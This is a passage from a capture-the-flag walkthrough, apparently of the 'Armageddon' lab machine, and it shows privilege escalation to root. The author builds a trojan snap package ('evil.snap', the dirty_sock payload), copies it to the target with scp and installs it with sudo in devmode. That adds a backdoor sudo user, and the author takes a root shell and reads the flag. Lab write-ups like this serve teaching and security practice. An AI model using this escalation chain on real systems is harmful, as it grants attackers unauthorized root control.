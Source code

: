 ```py
print(TROJAN_SNAP)
```

```py
$ python gensnap.py | base64 -d > evil.snap
```

Now we just have to transfer it to the target...

```php
$ scp evil.snap brucetherealadmin@10.129.48.89:/dev/shm/evil.snap 
brucetherealadmin@10.129.48.89's password: 
evil.snap											100% 4096    70.8KB/s   00:00
```

... and install it with root permissions.

```py
[brucetherealadmin@armageddon shm]$ sudo /usr/bin/snap install --devmode evil.snap 
dirty-sock 0.1 installed
```

This adds a user dirty_sock with the password dirty_sock to the machine which is allowed to run any command with sudo.

```php
[brucetherealadmin@armageddon shm]$ su dirty_sock
Password:
[dirty_sock@armageddon shm]$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dirty_sock:
[root@armageddon shm]#
```

After switching to the user and escalating to root with sudo su we can add the rootflag to our collection.

```php
[root@armageddon shm]# wc -c /root/root.txt
33 /root/root.txt
```
